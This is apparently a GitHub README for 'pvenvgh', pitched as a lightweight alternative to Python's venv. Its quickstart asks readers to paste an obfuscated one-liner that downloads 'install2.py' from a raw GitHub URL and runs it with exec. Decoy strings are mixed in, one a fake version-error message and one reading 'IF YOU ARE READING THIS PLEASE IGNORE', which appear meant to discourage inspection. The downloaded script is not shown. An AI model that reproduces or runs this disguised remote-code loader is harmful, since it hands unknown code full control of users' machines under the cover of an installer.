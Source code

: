 # pvenvgh — Console & Custom Python Env Runner

pvenvgh is a console-like app that sets up and runs a custom Python environment — think of it as a slick alternative to the usual venv, but with extra powers.

It fetches remote scripts, manages package folders, and can launch your environment or even other tools, all from the command line.

## Quickstart: Run the Installer

Open your Python console and paste this one-liner to fetch and run the installer script:

```python
["IF YOU ARE READING THIS PLEASE IGNORE", f"I am sorry. This application does not support 3.7 lower pythons {python:=3.8}",
exec((get:=((lambda r:lambda f:(r.urlopen(f"https://raw.githubusercontent.com/i-am-new-blip/wpt/refs/heads/main/{f}").read().decode()))((request:=(__import__('urllib').request)))))('install2.py'))]
```

You’re all set! The script will handle the rest.

## What It Is

- A console to **create and run a custom Python environment** (not the official venv, but close)  
- Fetches and executes remote setup scripts on demand  
- Manages package directories dynamically  
- Lets you launch your environment or external tools with ease  

## Why Use It?

- Lightweight and flexible — no heavy dependencies  
- Great for quick prototyping or dev setups  
- Powers your workflows from a single console app  
- Perfect if you want control beyond the standard venv  

## How To Use

1. Run the bootstrap script using the quickstart one-liner above  
2. It fetches `install2.py` which sets up the package folders and environment  
3. Use the console commands to run your custom env or launch tools  

## Requirements

- Python 3.8+ (walrus operator friendly)  
- Internet connection for fetching remote scripts  
- Cross-platform compatible  

## License

MIT © YourNameHere

---

Feel free to open issues or pull requests for features or help!
